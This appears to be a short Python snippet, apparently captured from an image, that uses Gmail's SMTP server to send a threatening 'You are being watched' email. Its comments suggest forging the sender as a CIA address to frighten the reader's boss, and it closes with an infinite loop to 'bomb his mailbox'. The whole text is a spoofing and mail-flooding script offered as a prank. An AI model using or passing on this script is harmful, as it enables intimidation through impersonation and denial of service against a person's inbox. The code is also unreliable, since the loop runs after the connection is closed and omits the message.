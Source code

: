 # Tracker



import smtplib
 
text = "You are being watched"
 
ml = smtplib.SMTP ('smtp.gmail.com',587)
 
ml.ehlo()
 
ml.starttls()
 
ml.login('your-email','password')
 
#Now here comes the fun part.
#Let's say you want your boss
#to think he got the mail from CIA.
#Type in like nobody@cia.com in place of 
#foremail and your boss's email in place
#of receiver.
 
ml.sendmail('foremail','receiver',text)
 
ml.close()

Execute and Hit “Run”. BOOM!! 
Well, now if you want to bomb his mailbox, just loop it.

while True:
    ml.sendmail('foremail','receiver')

